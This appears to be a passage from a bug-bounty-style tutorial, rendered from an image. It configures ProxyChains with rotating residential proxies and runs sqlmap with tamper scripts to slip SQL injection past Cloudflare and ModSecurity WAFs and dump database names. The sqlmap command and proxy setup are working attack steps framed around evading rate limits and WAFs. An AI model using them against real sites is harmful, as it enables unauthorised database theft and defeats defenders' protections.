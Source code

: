 # all proxies chained in the order as they appear in the list
# all proxies must be online to play in chain
# otherwise EINTR is returned to the app
#
random_chain
#
# Random - Each connection will be done via random proxy
# (or proxy chain, see  chain_len) from the list.
# this option is good to test your IDS :)

# Make sense only if random_chain
#chain_len = 2

# Quiet mode (no output from library)
quiet_mode
Validating ProxyChains with Curl
After configuring everything, run a simple curl command through ProxyChains to verify that everything is working correctly

proxychains curl http://ipinfo.io
proxychains curl http://ipinfo.io/ip
and after this command if you receiving responses from different IP locations with each request. This confirms ProxyChains is successfully routing our traffic through the residential proxies. That’s exactly what we need to evade rate limits and bypass WAFs. you can also Visit any website using your browser through ProxyChains by entering proxychains firefox command and Your IP should keep changing.

SQLMap + ProxyChains + tampers in Action
Now, let’s use SQLMap with ProxyChains along with some tamper scripts to see if we can bypass the Cloudflare WAF using following command:

proxychains sqlmap -u 'url' --dbs --batch -p id --random-agent --tamper=between,space2comment --dbms mysql --tech=B --no-cast  --flush-session --threads 10

And look at that SQLMap successfully bypassed Cloudflare and dumped the database table names

Here are some examples of previous bypasses for 403 pages on different websites


Now let’s also try bypassing ModSecurity using the same tamper script and proxychains

